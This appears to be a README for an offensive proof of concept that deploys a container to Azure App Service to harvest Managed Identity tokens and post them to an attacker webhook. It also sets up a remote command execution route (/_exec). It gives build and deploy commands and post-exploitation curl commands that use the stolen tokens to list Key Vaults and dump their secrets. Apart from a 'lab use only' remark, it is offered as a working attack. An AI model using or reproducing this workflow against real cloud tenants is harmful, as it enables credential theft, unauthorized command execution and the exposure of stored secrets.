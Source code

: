 # Azure App Service Identity Harvest PoC

This PoC deploys a custom container to an Azure App Service that:
- Exposes a simple health endpoint
- Optionally allows controlled remote command execution (`/_exec`)
- Harvests Managed Identity tokens (System-Assigned + optionally User-Assigned) from the App Service environment
- Exfiltrates tokens to a provided `WEBHOOK_URL`

---

## Features
- **IMDS/MSI endpoint discovery** — Uses `IDENTITY_ENDPOINT` / `MSI_ENDPOINT` from env if available, otherwise falls back to known IP:port patterns.
- **Multiple API versions** — Supports `api-version` variants for both new and legacy MSI endpoints.
- **Resource coverage** — Requests tokens for:
  - Azure Resource Manager (`https://management.azure.com/`)
  - Azure Key Vault (`https://vault.azure.net/`)
- **Command execution route** — `POST /_exec` with a shared secret for ad-hoc commands (lab use only).

## Build & Push
```bash
# Vars
ACR_LOGIN_SERVER="yourregistry.azurecr.io"
ACR_USER="registry-username"
ACR_PASS="registry-password"
REPO="appservice-harvest"
TAG="v1"
IMAGE="$ACR_LOGIN_SERVER/$REPO:$TAG"

# Login to ACR
echo "$ACR_PASS" | docker login "$ACR_LOGIN_SERVER" -u "$ACR_USER" --password-stdin

# Build + push for linux/amd64 (App Service expects this)
docker buildx build \
  --platform linux/amd64 \
  -t "$IMAGE" \
  --push \
  .
```

## Deploy to Web App
```bash
# Configure container
az webapp config container set \
  -g "$AZ_RESOURCE_GROUP" -n "$WEBAPP" \
  --container-image-name "$ACR_LOGIN_SERVER/$REPO:$TAG" \
  --container-registry-url "https://$ACR_LOGIN_SERVER" \
  --container-registry-user "$ACR_USER" \
  --container-registry-password "$ACR_PASS"

# Optional: restart via Kudu (avoids full re-deploy)
curl -u "$KUDU_USER:$KUDU_PASS" \
  -X POST "https://$WEBAPP.scm.azurewebsites.net/api/app/restart"
```

## Environment Variables
| Name        | Purpose                                              |
|-------------|------------------------------------------------------|
| WEBHOOK_URL | Where harvested tokens are POSTed                    |
| UAMI_CID    | Optional client ID for a User-Assigned MI            |
| ENABLE_CMD  | Set 1 to enable /_exec                                |
| CMD_TOKEN   | Shared secret for /_exec requests                    |
| CMD_ALLOW   | Comma-separated list of allowed commands (empty = allow all) |

## Routes
- `/` — Basic health OK
- `/_health` — JSON health check
- `/_exec` — POST JSON `{"cmd":"id"}` with `X-Cmd-Token` header
- (Harvest runs in background on container start)

---

## Harvest Logic
1. Checks environment for `IDENTITY_ENDPOINT` or `MSI_ENDPOINT`.
2. Iterates over known MSI URL formats (IMDS + legacy App Service).
3. Requests tokens for ARM and Key Vault.
4. Optionally requests UAMI tokens if `UAMI_CID` set.
5. Exfiltrates results to `WEBHOOK_URL`.

## Using the Tokens

### Extract from webhook payload
```bash
TOK_KV=$(jq -r '.data | fromjson | .tokens.system_kv // .tokens.uami_kv' exfil.json)
TOK_ARM=$(jq -r '.data | fromjson | .tokens.system_arm // .tokens.uami_arm' exfil.json)
```

### Enumerate Vaults (ARM token)
```bash
SUB="<subscription-id>"
curl -sS \
  "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.KeyVault/vaults?api-version=2023-07-01" \
  -H "Authorization: Bearer $TOK_ARM" | jq '.value[].name'
```

### Dump Secrets (KV token)
```bash
VAULT="my-vault-name"
API="7.4"
curl -sS "https://$VAULT.vault.azure.net/secrets?api-version=$API" \
  -H "Authorization: Bearer $TOK_KV" | jq .
```

## Troubleshooting
- **Container not starting** — Ensure `--platform linux/amd64` in docker buildx.
- **Image pull failures** — Disable MI image pull if needed:
```bash
az resource update \
  --ids "/subscriptions/$SUB/resourceGroups/$RG/providers/Microsoft.Web/sites/$WEBAPP/config/web" \
  --set properties.acrUseManagedIdentityCreds=false
```
- **No tokens** — Confirm MI is enabled for the App Service, try both `IDENTITY_ENDPOINT` and `MSI_ENDPOINT`.
